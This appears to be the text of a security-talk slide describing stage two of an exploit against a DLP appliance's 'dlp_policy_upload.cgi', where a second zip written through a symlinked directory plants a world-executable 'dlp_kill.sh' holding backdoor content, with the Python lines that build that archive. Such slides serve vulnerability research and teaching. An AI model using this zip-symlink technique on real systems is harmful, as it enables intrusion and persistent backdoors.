

# dlp_policy_upload.cgi zip extraction
Stage 2 – Upload the 2nd zip to write into the symlinked directory
zi = zipfile.ZipInfo("si/dlp_kill.sh")
zi.external_attr = 0777 << 16L
z.writestr(zi, _get_bd())

97